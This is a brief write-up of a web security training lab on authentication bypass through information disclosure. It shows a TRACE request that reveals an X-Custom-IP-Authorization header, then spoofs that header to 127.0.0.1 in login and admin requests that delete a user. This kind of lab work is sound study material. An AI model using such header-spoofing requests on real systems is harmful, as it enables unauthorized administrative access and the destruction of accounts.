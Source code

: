 

# Lab: Authentication bypass via information disclosure

Should repeat one of the login packets but instead of GET use TRACE to get the http reponse headers used in autentication. We then get:

```
X-Custom-IP-Authorization: 84.109.20.63
```
This is our extenal IP - we need to verify ourselves as Admmins, so lets change this to localhost

Now we can use this autherization header to permit to enter the admin panel:
```
X-Custom-IP-Authorization: 127.0.0.1
```

Enter the admin with this login request:
```
POST /login HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1

csrf=f9rivO9QlHCwOVBBVmjTuQrJSYFadDXO&username=admin&password=1234
```

Now we get the admin panel in order to delete carlos with this request:
```
GET /admin/delete?username=carlos HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1
```
